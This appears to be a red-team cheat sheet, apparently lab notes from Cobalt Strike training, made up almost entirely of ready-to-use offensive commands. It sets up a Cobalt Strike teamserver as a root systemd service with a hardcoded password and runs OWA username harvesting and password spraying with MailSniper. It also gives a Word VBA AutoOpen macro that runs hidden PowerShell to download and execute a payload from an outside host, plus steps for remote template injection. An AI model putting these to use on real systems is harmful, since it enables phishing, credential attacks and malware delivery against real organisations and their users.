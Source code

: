 ## TeamServer as a service
```powershell
nano /home/ubuntu/CobaltStrike/RunMe.sh
	/home/ubuntu/CobaltStrike/teamserver $(curl ipinfo.io/ip) P@ssw0rd profile.txt

chmod +x RunMe.sh

sudo nano /etc/systemd/system/teamserver.service

	[Unit]
	Description=Cobalt Strike Team Server
	After=network.target
	StartLimitIntervalSec=0

	[Service]
	Type=simple
	Restart=always
	RestartSec=1
	User=root
	WorkingDirectory=/home/ubuntu/CobaltStrike/
	ExecStart=sudo /home/ubuntu/CobaltStrike/RunMe.sh

	[Install]
	WantedBy=multi-user.target

sudo systemctl daemon-reload
sudo systemctl status teamserver.service
sudo systemctl start teamserver.service
sudo systemctl enable teamserver.service
```

## Mail Spoofing
```powershell
git clone https://github.com/MattKeeley/SpoofChecker
cd SpoofChecker
sudo apt-get update
sudo apt-get install python3-pip
pip3 install -r requirements.txt
python3 spoofy.py -d cyberbotic.io
```

## Password Spraying
```powershell
git clone https://github.com/dafthack/MailSniper
git clone https://gist.github.com/superkojiman/11076951
ipmo C:\Tools\MailSniper\MailSniper.ps1
Invoke-DomainHarvestOWA -ExchHostname mail.cyberbotic.io
python3 namemash.py names.txt > possible.txt
Invoke-UsernameHarvestOWA -ExchHostname mail.cyberbotic.io -Domain cyberbotic.io -UserList possible.txt -OutFile valid.txt
Invoke-PasswordSprayOWA -ExchHostname mail.cyberbotic.io -UserList valid.txt -Password Summer2022
Get-GlobalAddressList -ExchHostname mail.cyberbotic.io -UserName cyberbotic.io\iyates -Password Summer2022 -OutFile gal.txt
```

## Get Downloaded File's Zone
```powershell
gc .\test.txt -Stream Zone.Identifier
```

## VBA Macros (save as .doc)
```powershell
Sub AutoOpen()

  Dim Shell As Object
  Set Shell = CreateObject("wscript.shell")
  Shell.Run "powershell.exe -nop -w hidden -c ""IEX ((new-object net.webclient).downloadstring('http://nickelviper.com/a'))"""

End Sub
```

## Remote Template Injection
- Create .dot file containing your malicious macros
- Host the file on the cobalt server
- Create empty .dotx document and save it
- Open the empty .dotx document and then save it as .docx document
- Open .docx archive and edit word\_rels\settings.xml.rels (Target="http://nickelviper.com/template.dot")
